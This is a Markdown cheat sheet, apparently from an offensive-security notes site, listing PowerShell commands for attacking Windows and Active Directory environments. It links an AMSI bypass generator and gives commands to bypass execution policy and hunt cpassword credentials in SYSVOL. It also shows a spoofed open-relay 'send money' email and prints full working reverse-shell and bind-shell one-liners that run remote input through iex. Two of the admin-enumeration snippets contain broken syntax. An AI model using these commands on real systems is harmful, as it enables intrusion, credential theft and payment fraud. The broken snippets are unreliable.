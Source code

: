 ```yaml
---
title : "powershell"
# pre : '<i class="fas fa-code"></i> '
description : "Windows Powershell handy commands."
date : 2020-04-16T13:14:28+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Powershell

{{%attachments title="PowerShell and ISE executable" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Antimalware Scan Interface (AMSI) bypass generator

<https://amsi.fail>

### Active Directory PowerShell Module

This way the [Active Directory PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps) module can be used portable without administrator privileges. For example, when running in Azure Virtual Desktops or AzureAD managed devices, you will probably get the error message *Unable to find a default server with Active Directory Web Services running.*. Use the `-Server DC01.offsec.nl` flag after your CMDlet.

```plain
mkdir C:\temp; iwr https://github.com/crypt0rr/filehosting/raw/master/Microsoft.ActiveDirectory.Management.dll -OutFile C:\temp\1234hoedjevanpapier.dll; Import-Module C:\temp\1234hoedjevanpapier.dll
```

{{%attachments title="PowerShell module" fa_icon_class="far fa-file-code" pattern=".*(dll)"/%}}

PowerShell: `Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose`

### Adjust execution policy

```plain
Set-ExecutionPolicy -scope process -execution bypass
```

### Check 'ms-DS-MachineAccountQuota'

```plain
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### List users with 'Store passwords using reversible encryption' enabled

```plain
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Finding cpassword

```powershell
findstr /s /n /i /p cpassword $env:logonserver\sysvol\*
```

### Get members of specific group

```plain
Get-ADGroupMember “Domain Admins”
```

```plain
Get-ADGroupMember “Domain Admins” | select SamAccountName
```

### Get details

```plain
$env:logonserver
```

### Check which users home directories you have access to

```plain
gci C:\users\*\*
```

### Enable access to C-drive in Explorer

```plain
subst z: c:\
```

### Check how many computerobjects can be added by a user

```plain
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### Overview domain admins

Where 'Password Never Expires' is set.

```plain
Get-ADGroupMembers 'Domain Admins' | Foreach-Object {
    Get-ADUser -Filter * -Properties | Select-Object Name,DisplayName,sAMAccountName,PasswordLastSet,PasswordNeverExpires
} | Sort-Object Name, PasswordLastSet, PasswordNeverExpires | Format-Table -AutoSize
```

Where 'Password Never Expires' is NOT set.

```plain
Get-NetGroupMember 'Domain Admins' | Foreach-Object {
    Get-NetUser -Filter * | Select-Object Name,DisplayName,sAMAccountName,PwdLastSet,AccountExpires
} | Sort-Object Select-Object Name,PwdLastSet | Format-Table -AutoSize
```

### Check secureboot enabled

```powershell
Confirm-SecureBootUEFI
```

### List users with PasswordNeverExpires enabled

```powershell
Import-Module ActiveDirectory
Get-ADUser -filter * -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$_.enabled -eq "true" }
```

### List Domain Admins where 'Account is sensitive an cannot be delegated' is not set

```powershell
Import-Module ActiveDirectory
Get-ADGroupMember "Domain Admins" | Get-ADUser -Properties AccountNotDelegated | Where-Object {-not $_.AccountNotDelegated} | select AccountNotDelegated,Name,SamAccountName
```

### Change user agent

```powershell
iwr -UserAgent 'Non existing user agent in use'
```

### Enable repository use

For PowerShell 4 and higher. For 5.1 and higher you can try `Register-PSRepository -default` first otherwise use code below.

```plain
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Install-PackageProvider -Name NuGet -RequiredVersion 2.8.5.208 -Force

Register-PSRepository -Name PSGallery -SourceLocation https://www.powershellgallery.com/api/v2/ -PublishLocation https://www.powershellgallery.com/api/v2/package/ -ScriptSourceLocation https://www.powershellgallery.com/api/v2/items/psscript/ -ScriptPublishLocation https://www.powershellgallery.com/api/v2/package/ -InstallationPolicy Trusted -PackageManagementProvider NuGet

Install-Module $ModuleName -scope CurrentUser
```

### Copy remote file to local (WinRM)

```plain
$ses = New-PSSession -ComputerName DC01 -Credentials $(Get-Credential)
Copy-Item -FromSession $ses C:\Users\adm-johndo\DC01\secrets.txt Z:\localdisk\secrets.txt
```

### Open Relay

```plain
Send-MailMessage -From 'Not John Do <finance@offsec.nl>' -To 'supplier@offsec.nl' -Subject 'Please send money' -SmtpServer 'openrelay.offsec.nl'
```

### Download a file from a remote resource

When ran from `cmd.exe` add `powershell -c "<command>"`

```plain
(new-object System.Net.WebClient).DownloadFile('https://www.7-zip.org/a/7z2201-x64.exe','C:\Users\crypt0rr\Desktop\7z2201-x64.exe')
```

## Shells (reverse/bind)

### Reverse shell

```plain
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<TARGET-IP-HERE>',<TARGET-PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell

* `0.0.0.0` - will bind to every IP-address available on the local system

```plain
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<TARGET-PORT-HERE>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Port Scan

```plain
$ Test-NetConnection DC01.offsec.nl -port 389

ComputerName     : DC01.offsec.nl
RemoteAddress    : 10.10.10.10
RemotePort       : 389
InterfaceAlias   : Ethernet
SourceAddress    : 10.0.0.4
TcpTestSucceeded : True
```
